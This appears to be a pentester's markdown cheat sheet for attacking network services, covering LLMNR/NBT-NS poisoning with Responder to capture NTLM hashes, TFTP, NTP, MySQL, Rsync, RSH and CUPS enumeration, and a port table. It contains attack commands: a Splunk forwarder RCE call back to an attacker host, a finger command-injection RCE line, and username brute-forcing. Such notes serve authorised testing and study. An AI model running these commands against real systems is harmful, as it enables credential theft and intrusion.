### LLMNR/NBT-NS Spoofing Attack

By responding to LLMNR/NBT-NS network traffic, we can spoof an authoritative source for name resolution to force communication with an out controlled system. We can then collect or relay authentication materials.
Both those protocols uses NTLM and NTMLv2 hashes.

Here below is an example of the attack.



Source: <https://itrtech.africa/blog/the-llmnr-nbt-ns-strike/>

[Responder](https://github.com/lgandx/Responder) is an LLMNR, NBT-NS and MDNS poisoner. It will answer to specific NBT-NS (NetBIOS Name Service) queries based on their name suffix

```bash
python Responder.py -I ETHERNER_INTERFACE -rdfwv # Built-in an HTTP Auth server, MSSQL Auth server, LDAP Auth server and WPAD Proxy Server
```

Options:

- **-r**: Listen to Microsoft SQL Authentication (NBT-NS queries for SQL Server lookup are using the Workstation Service name suffix)
- **-d**: Enable answers for netbios domain suffix queries.
- **-w**: Start the WPAD rogue proxy server.
- **-v**: Increase verbosity.
- **-f**: This option allows you to fingerprint a host that issued an NBT-NS or LLMNR query.

For more information about that technique refer to [T1557.001 - Man-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay](https://attack.mitre.org/techniques/T1557/001/)

###### *If you don't know, now you know: [LLMNR](https://en.wikipedia.org/wiki/Link-Local_Multicast_Name_Resolution) & [NBT-NS](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc958811(v=technet.10)?redirectedfrom=MSDN)*

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.

###### *If you don't know, now you know: [WPAD](https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol)*

The Web Proxy Auto-Discovery (WPAD) Protocol is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods. Once detection and download of the configuration file is complete, it can be executed to determine the proxy for a specified URL.

### TFTP

TFTP requires no authentication, so ...

```bash
nmap -n -Pn -sU -p 69 -sV --script tftp-enum IP # Brute-force default paths
```

Python can be used to interact with it

```Python
import tftpy
client = tftpy.TftpClient(<ip>, <port>)
client.download("filename in server", "/tmp/filename", timeout=5)
client.upload("filename to upload", "/local/path/file", timeout=5)
```

### NTP

```bash
ntpdc -n -c monlist IP    # Get information from the NTP server
nmap -sU -p 123 --script=ntp-* IP
```

Some things to know about NTP:

- **monlist** is a debugging command that allows to retrieve information from the monitoring facility about traffic associated with the NTP service.

### Splunk Universal Forwarder Agent (8090)

The universal forwarder collects data from a data source or another forwarder and sends it to a forwarder or a Splunk deployment. With a universal forwarder, you can send data to Splunk Enterprise, Splunk Light, or Splunk Cloud.

Try to visit https://IP:8090

If you have an admin account you can perform remote code execution with [PySplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)

```bash
PySplunkWhisperer2_remote.py --host IP --port 8090 --lhost OUR_IP --lport OUR_PORT --username USER --password PASS --payload-file FILE
```

### MySQL

If we have user, we can try to connect on the database,

```bash
mysql -h IP -u USER -p -P 3306 DATABASE
```

*Don't forget to specify the **-p** in order to say that you want to connect with a password*

### Finger Service

Finger is an old user information protocol are simple network protocols for the exchange of human-oriented status and user information that was created in ... 1977.

You can use the [finger-user-enum](https://github.com/pentestmonkey/finger-user-enum) Perl script to bruteforce username

```bash
finger @VICTIM-IP # List users
finger USERNAME@VICTIM-IP # Get info of user
finger-user-enum.pl -U users.txt -t IP # Brute force to guess users
finger "|/bin/ls -a /@IP" # Perform an RCE
```

### Rsync

rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification times and sizes of files.

```bash
nc -vn IP 873 # Banner grabbing
nmap -sV --script "rsync-list-modules" -p 873 IP # Enumerate availables rsync modules
rsync rsync://IP # Try to connect
```

### RSH

The remote shell (rsh) is a command line computer program that can execute shell commands as another user, and on another computer across a computer network.

```bash
rsh <target> <command>       #
rusers -al IP                # Displays the users currently logged on on the machine
rlogin -l USERNAME <target>  # Connect on a remote machine with a 
```

### CUPS

[CUPS](https://ubuntu.com/server/docs/service-cups) is a modular printing system for Unix-like computer operating systems which allows a computer to act as a print server.

```bash
nmap -p 631 --script cups-info IP # Lists printers managed by the CUPS printing service.
```

### Network Ports

|Port(s)|Protocol(s)|Services|
|-|---------- | ----------- |
|21|TCP|FTP|
|25|TCP|SMTP|
|53|TCP/UDP|DNS|
|79|TCP|Finger|
|69|UDP|TFTP|
|88|UDP|Kerberos|
|110|TCP|POP3|
|111|TCP|NFS(RPC Bind)|
|123|UDP|NTP|
|135|TCP & UDP|RPC|
|161|UDP|SNMP (Manager)|
|162|UDP|SNMP (Agent)|
|389|TCP|LDAP|
|465|TCP|SMTP over SSL|
|514|TCP|RSH|
|587|TCP|SMTP over TLS|
|631|TCP & UDP|CUPS|
|873|TCP|Rsync|
|995|TCP|POP3 over SSL|
|1821|TCP|[Oracle](Applications/OracleDatabase.md)
|2029|TCP & UDP|NFSv4|
|3306|TCP|MySQL|
|5985|TCP|WinRM 2.0 HTTP|
|5986|TCP|WinRM 2.0 HTTPS|
|8000|TCP|[Java Debug Wire Protocol](Applications/Tomcat.md)|
|8009|TCP|[AJP Connector](Applications/Tomcat.md)|
|8090|TCP|Splunk Universal Forwarder Agent|
|11211|TCP|[Memcached](Applications/memcached.md)|

### References

- Thanks to hacktricks for the NIS part
